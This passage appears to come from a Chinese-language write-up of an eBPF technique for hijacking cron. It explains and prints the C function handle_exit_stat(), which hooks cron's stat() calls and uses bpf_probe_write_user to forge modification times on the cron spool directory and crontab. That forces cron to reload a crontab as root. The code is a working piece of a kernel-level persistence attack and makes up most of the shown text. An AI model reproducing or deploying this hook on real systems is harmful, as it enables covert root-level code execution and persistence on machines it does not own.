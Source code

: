 这里主要是要 Capture 到对应的 cron 进程中对两个文件名判断的地方。

 

**handle_exit_stat()**

 

stat 退出。

 

我们此时的目标是 bypass 后面的两个 TEQUAL，让 cron 检测到文件的更新，然后立刻去调用 `process_crontab("root", NULL, SYSCRONTAB, &syscron_stat,&new_db, old_db)`

```
static __inline int handle_exit_stat(){
  if(statbuf_ptr == 0){
    return 0;
  }
 
  bpf_printk("[sys_exit::handle_exit_stat()] cron %d stat() %s\n",cron_pid , filename_saved);
 
 
  /*
 
  At this point, we need to make sure that the following two conditions are both passed.
  Which is equivalent to :
 
  !TEQUAL(old_db->mtim, TMAX(statbuf.st_mtim, syscron_stat.st_mtim))    [1]
  !TEQUAL(syscron_stat.st_mtim, ts_zero)                                [2]
 
  */
 
 // We are tend to set statbuf.st_mtim ZERO and set syscron_stat.st_mtim a SMALL RANDOM VALUE
  __kernel_ulong_t spool_dir_st_mtime = 0;
  __kernel_ulong_t crontab_st_mtime = bpf_get_prandom_u32() & 0xffff;  //bpf_get_prandom_u32 Returns a pseudo-random u32.
 
  // Ensure the file is our target
 
  // If we are checking SPOOL_DIR
  if(!memcmp(filename_saved , SPOOL_DIR , sizeof(SPOOL_DIR))){
    bpf_probe_write_user(&statbuf_ptr->st_mtime , &spool_dir_st_mtime , sizeof(spool_dir_st_mtime) );
  }
 
  if(!memcmp(filename_saved , CRONTAB , sizeof(CRONTAB))){
    bpf_probe_write_user(&statbuf_ptr->st_mtime , &crontab_st_mtime ,sizeof(crontab_st_mtime));
  }
 
  bpf_printk("[sys_exit::handle_exit_stat()]  Modify DONE\n");
  // update
  statbuf_ptr = 0;
 
  return 0;
}

```
